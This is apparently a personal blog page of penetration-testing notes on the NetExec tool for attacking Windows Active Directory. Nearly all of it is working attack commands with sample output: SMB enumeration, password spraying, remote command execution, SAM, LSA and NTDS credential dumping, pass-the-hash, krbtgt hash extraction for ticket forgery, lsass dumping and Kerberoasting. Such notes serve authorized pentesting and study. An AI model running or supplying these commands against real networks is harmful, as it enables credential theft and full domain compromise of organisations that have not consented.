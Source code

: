 ```yaml
---
title: "NetExec Tool Overview"
description: "My notes for the [Netexec](https://github.com/Pennyw0rth/NetExec) tool"
date: 2024-01-22T10:00:00+01:00
image: https://cloud.githubusercontent.com/assets/5151193/17577511/d312ceb4-5f3b-11e6-8de5-8822246289fd.jpg
math:
license:
hidden: false
comments: true
draft: false
tags:
    - Windows
    - Privilege Escalation
    - Enumeration
categories:
    - Tool
    - Active Directory
---
```


Enumeration:

```bash
nxc smb -h
```

```bash
nxc smb <URL>
SMB <URL> 445  DC-DC [*] Windows 10.0 Build 20348 x64 (name: DC-DC) (domain: dc.local) (signing: True) (SMBv1:False)
```

Name: PC’s name

domain: domain’s name

SMBv1:True (Possible Eternal Blue exploit)

Check for acounts:

```bash
nxc smb <URL> -u 'guest' -p ''

SMB   <URL>   445   DC-DC   [*] Windows 10.0 Build 20348 x64 (name: DC-DC) (domain: dc.local) (signing: True) (SMBv1:False)
SMB   <URL>   445   DC-DC   [-] dc.local\guest: STATUS_ACCOUNT_DISABLED
```

With a file:

```bash
nxc smb <URL> -u 'usern.name' -p 'password_file.txt'
```

```bash
SMB   <URL>   445   DC-DC   [*] Windows 10.0 Build 20348 x64 (name: DC-DC) (domain: dc. local) (signing:True) (SMBv1:False)
SMB   <URL>   445   DC-DC   [-] dc.local\name.surname:password STATUS_LOGON_FAILURE
SMB   <URL>   445   DC-DC   [-] dc.local\name.surname:Password123 STATUS_LOGON_FAILURE
SMB   <URL>   445   DC-DC   [-] dc.local\name.surname:Summer2023! STATUS_LOGON_FAILURE
SMB   <URL>   445   DC-DC   [+] dc. local\name.surname:SeekTheCheapestRoute!
```

Pass the password:

```bash
nxc smb <URL> -u 'user_file.txt' -p '<found_password>'
```

With credentials: (enumerate users and groups)

```bash
nxc smb <URL> -u 'user.name' -p 'found_password' --rid-brute
```

With`--log` you can log a specific command to a specific file

config file:

```bash
/home/kali/.nxc/nxc.conf
[nxc]
workspace = default
last_used_db = smb
pwn3d_label = Pwn3d!
audit_mode =
reveal_chars_of_pwd = 0
log_mode = False <--- if True generates log in the "/home/kali/.nxc/logs" folder
ignore_opsec = True
host_info_colors = ["green", "red", "yellow", "cyan"]

[BloodHound]
bh_enabled = False
bh_uri = 127.0.0.1
bh_port = 7687
bh_user = neo4j
bh_pass = neo4j

[Empire]
api_host = 127.0.0.1
api_port = 1337
username = empireadmin
password = password123

[Metasploit]
rpc_host = 127.0.0.1
rpc_port = 55552
password = abc123
```

Kerberos Auth:

```bash
nxc smb <URL> -u 'user.name' -p 'found_password' -k
```

If you have a tgt ticket:

```bash
export KRB5CCNAME=ticket.ccache
nxc smb <URL> -u 'user.name' -p 'found_password' --use-kcache
```

Execute commands:

```bash
nxc smb <URL> -u 'user.name' -p 'found_password' -x 'command' <--- cmd
nxc smb <URL> -u 'user.name' -p 'found_password' -X 'command' <--- Powershell
nxc smb <URL> -u 'user.name' -p 'found_password' -x 'powershell.exe -c "GCI C:\\"' <--- Powershell without obfuscation
```

If you got admin the first thing to do is dump the sam/lsa:

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' --sam
```

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' --lsa
```

Auth with Hash:

```bash
nxc smb <URL> -u 'USER-DC$' -H <hash>
```

PC name needed.

ntds dump:

```bash
nxc smb <URL> -u 'USER-DC$' -H <hash> --ntds
```

ntds dump of a single user: (better krbtgt)

```bash
nxc smb <URL> -u 'USER-DC$' -H <hash> --ntds --user krbtgt
```

With the hash of the krbtgt we can forge our own tickets.

Modules:

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' -M nanodump
```

Get lsass dump and parse the result with pypykatz

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' -M lsassy
```

Dumps lsass and parse the result remotely with lsassy

Put files in the smb share:

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' --put-file file.txt '\\file.txt'
```

### LDAP

```bash
nxc ldap -L <--list modules
```

Kerberoast:

```bash
nxc ldap <URL> -u 'Administrator' -p 'admin_pass' --kerberoasting outfile.txt
```
